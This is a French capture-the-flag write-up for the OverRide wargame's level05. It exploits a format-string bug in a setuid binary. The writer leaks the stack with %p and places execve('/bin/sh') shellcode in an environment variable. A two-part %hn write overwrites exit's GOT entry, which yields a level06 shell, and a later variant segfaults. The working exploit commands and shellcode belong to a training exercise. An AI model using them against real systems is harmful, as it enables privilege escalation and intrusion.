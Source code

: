 iRELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE  
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05  
  
level05@OverRide:~$ file level05   
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not strippe  
  
Le programme actuel recupere la string de gets et transforme les minuscules en majuscules.  
Le premier argument du printf a *main+195 est notre string, ce qui correspond a une faille de type format string  
  
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
  
Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  
  
(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
  
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
  
adresse exit: 0x80497e0  
  
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite.  
  
=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100  
(gdb) x/wx $esp  
0xffffd470:     0xffffd498  
(gdb) x/s 0xffffd498  
0xffffd498:      ""  
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
  
(python -c 'print(len("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn"))')  
34  
  
Je recommence mes calculs avec un environnement vierge.  
  
=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt>  
(gdb) x/wx $esp  
0xffffd690:     0xffffd6b8  
(gdb) x/s 0xffffd6b8  
0xffffd6b8:      ""  
  
(gdb) p/x 0xffffd6b8+8+21  
$2 = 0xffffd6d5  
  
(gdb) p/d 0xd6d5  
$3 = 54997  
(gdb) p/d 0xd6d5-8  
$4 = 54989  
  
(gdb) p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-54997  
$6 = 10538  
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "\x90" * (100-8-23-13-13) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%.54989u%10$hn" + "%.10538u%11$hn")'; cat) | ./level05  
Segmentation fault (core dumped)  
  
Je pense qu il ny a pas assez de NOPs de disponible afin de pouvoir etre sur qu une adresse arrive dans les NOPs.  
